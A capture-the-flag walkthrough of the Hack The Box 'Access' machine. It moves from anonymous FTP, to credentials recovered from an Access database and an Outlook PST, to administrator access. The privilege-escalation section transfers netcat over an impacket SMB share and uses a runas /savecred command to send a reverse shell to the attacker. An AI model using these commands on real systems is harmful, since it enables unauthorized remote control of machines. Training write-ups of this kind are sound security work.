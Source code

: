 ```yaml
---
layout: post
title: Hack The Box, Access
tags: [Hack The Box, Windows, Impacket, Readpst]
---
```

![accesslogo](/boxes/htb/access/accessLogo.PNG)

### i. Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```
### ii. Enumeration
There are three services that are available to enumerate. To start off, we take a look at the http/website on port 80.  
![website](/boxes/access/website.PNG)  
After enumerating this service nothing was found. Next up is port 23 telnet. 

Connecting to telnet gives us a prompt for credentials. Trying a few common credentials didn't work. We will put this on the backburner for now.

Let's take a look at port 21 the FTP service. Nmap indicated anonymous FTP login was allowed and we were able to login and enumerate the FTP server.  
![ftpdirectories](/boxes/htb/access/ftpdir.PNG)  
A file backup.mdb was found in the Backups directory and we download a copy of it.  
![backupfile](/boxes/htb/access/backups.PNG)  
In the Engineer folder there is a file called Access Control.zip and we also transfer it to our machine.  
![accesscontrolfile](/boxes/htb/access/engineer.PNG)  
Trying to unzip the Access Control.zip file we run into password protection. We'll add this to the backburner list and look at the backup.mdb file. The backup.mdb file is a Microsoft Access Database. We transfer it to a Windows virtual machine and open it up.

Within the auth_user table credentials were found:

| username     | password          |
|--------------|-------------------|
| admin        | admin             |
| engineer     | access4u@security |
| backup_admin | admin             |

Trying the credentials via telnet did not work. Using the password `access4u@security` on the Access Control.zip file resulted in successfully extracting a file called Access Control.pst. Running the `file` command tells us this is a Microsoft Outlook PST.

Using the following command convert the pst to a mbox file and read its contents:
```
readpst Access\ Control.pst
cat Access\ Control.mbox
```
Within the mbox file we find an email with another set of credentials:  
![emailcreds](/boxes/htb/access/email.PNG)  
The credentials in the email gave us access to the machine via telnet and the user flag was found.  
![userflag](/boxes/htb/access/user.PNG)
### iii. Privilege Escalation
When performing Windows enumeration one of the things to check for is saved credentials. Running the following command lists any stored credentials:
```
cmdkey /list
```
![storedcreds](/boxes/htb/access/creds.PNG)  
Since stored credentials are available, there are a few options to obtain the root flag. The route we will take is sending ourselves an administrative shell. Within the Kali Linux distribution, you can find precompiled Windows binaries under the following directory:
 ```
 /usr/share/windows-binaries
 ```
 Using impacket's smbserver.py create an SMB share on the attack machine and transfer over a netcat binary.
 ```
 python smbserver.py sharename /share
 
 Copying files onto the victim machine:
 copy \\<ip address>\sharename\nc.exe .
 ```
Next set up a listener on the attack machine to prepare for the incoming shell:
```
nc -nlvp 443
```
Once the listener is setup, send a shell with the following command:
```
runas /user:access\administrator /savecred "cmd /c c:\users\security\nc.exe -nv <ip address> 443 -e c:\windows\system32\cmd.exe
```
The shell is received and is running as an administrative user! You can now capture the root flag!
![rootshell](/boxes/htb/access/rootshell.PNG)



